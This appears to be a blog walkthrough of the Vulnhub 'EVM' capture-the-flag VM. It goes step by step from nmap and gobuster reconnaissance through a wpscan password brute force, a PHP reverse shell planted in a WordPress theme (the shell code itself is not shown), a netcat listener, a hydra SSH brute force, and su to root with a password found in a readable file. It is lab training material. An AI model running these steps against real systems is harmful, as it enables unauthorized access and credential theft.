 ```yaml
---
title: "EVM Vulnhub CTF Walkthrough"
description: "EVM Vulnhub CTF Walkthrough"
---
```

Another CTF walkthrough. 
You can find the VM [here](https://www.vulnhub.com/entry/evm-1,391/)
nmap 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/EVM]
└─$ nmap -p- -sV 192.168.56.103 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 05:02 EDT
Nmap scan report for 192.168.56.103
Host is up (0.0016s latency).
Not shown: 65528 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

gobuster
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.103 
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.56.103/wordpress/
{% endhighlight %}

wpscan
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://192.168.56.103/wordpress -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt
[!] Valid Combinations Found:
 | Username: c0rrupt3d_brain, Password: 24992499
{% endhighlight %}

Logging into the WordPress installation, injecting php reverse shell into the header.php file in the "Edit Theme" section. 

Set up the listener and getting a shell
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ nc -lp 6666               
Linux ubuntu-extermely-vulnerable-m4ch1ine 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:46:13 up 15 min,  0 users,  load average: 0.12, 1.22, 1.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}


Spawning an interactive shell: 
{% highlight terminal %}
$ python -c 'import pty; pty.spawn("/bin/bash");'
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/$ 
{% endhighlight %}

user root3r identified. Let's try to brute force our way into the ssh service. 
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ hydra -l root3r -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.103 -V
{% endhighlight %}
No luck there. 


root3r home directory
{% highlight terminal %}
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ ls -asl
ls -asl
total 40
4 drwxr-xr-x 3 www-data www-data 4096 Nov  1  2019 .
4 drwxr-xr-x 3 root     root     4096 Oct 30  2019 ..
4 -rw-r--r-- 1 www-data www-data  515 Oct 30  2019 .bash_history
4 -rw-r--r-- 1 www-data www-data  220 Oct 30  2019 .bash_logout
4 -rw-r--r-- 1 www-data www-data 3771 Oct 30  2019 .bashrc
4 drwxr-xr-x 2 www-data www-data 4096 Oct 30  2019 .cache
4 -rw-r--r-- 1 www-data www-data   22 Oct 30  2019 .mysql_history
4 -rw-r--r-- 1 www-data www-data  655 Oct 30  2019 .profile
4 -rw-r--r-- 1 www-data www-data    8 Oct 31  2019 .root_password_ssh.txt
0 -rw-r--r-- 1 www-data www-data    0 Oct 30  2019 .sudo_as_admin_successful
4 -rw-r--r-- 1 root     root        4 Nov  1  2019 test.txt
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$
{% endhighlight %}

.root_password_ssh.txt gives us a password. That pasword didn't work when logging
in as root over SSH. 

Getting root shell:
{% highlight terminal %}
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su root
su root
Password: willy26
root@ubuntu-extermely-vulnerable-m4ch1ine:~# ls -a
ls -a
.   .bash_history  .cache          .nano     proof.txt
..  .bashrc        .mysql_history  .profile
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cat proof.txt
cat proof.txt
voila you have successfully pwned me :) !!!
:D
{% endhighlight %}
